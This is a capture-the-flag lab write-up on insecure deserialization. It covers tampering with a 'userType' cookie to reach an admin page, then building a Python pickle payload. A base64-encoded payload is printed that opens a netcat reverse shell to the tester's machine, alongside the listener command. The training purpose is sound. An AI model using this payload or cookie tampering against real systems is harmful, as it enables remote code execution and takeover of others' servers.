 # [Day 8] Insecure Deserialization
 > Insecure deserialization is replacing data processed by an application with malicious code; allowing anything from DoS (Denial of Service)\
to RCE (Remote Code Execution) that the attacker can use to gain a foothold in a pentesting scenario.

## Writeup
Read the supporting material from **[Task 22]** to **[Task 25]** to gather basic idea about Insecure Deserialization

**[Task 26]**
 - Create an account in the web page. And Right-click the page and press **Inspect Element**. Navigate to **Storage** tab.
 - First flag will be found in the sessionid's cookie value. But, you need to decode the **base64** value first. 
 - Double left-click the **"Value"** column of "userType" to modify the contents. Let's change userType to **"admin"**
 - Refresh the page or navigate to */admin* page
 - Here's your second flag!
 
 
 **[Task 27]**
 
 **This task is the trickiest one. But, make sure you follow the given instructions on *TryHackMe* carefully**\
 **I will give you the resources to answer these questions**
 
  - Create a python file to paste into, I have used "rce.py"
  - Paste the code from the GitHub site, replacing YOUR_TRYHACKME_VPN_IP with your TryHackMe VPN IP from the access page
  - [Source code](https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3#file-rce-py)
  - Execute **rce.py**
  
        python3 rce.py
  - Copy and paste everything in-between the two speech marks ('DATA')
  
        gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=
  - Paste this into the **encodedPayload** cookie in your browser
  - Ensure our netcat listener is still running
  
        $ nc -lvnp 4444
  - Refresh the page. It will hang, refer back to your netcat listener. And search for **flag.txt**

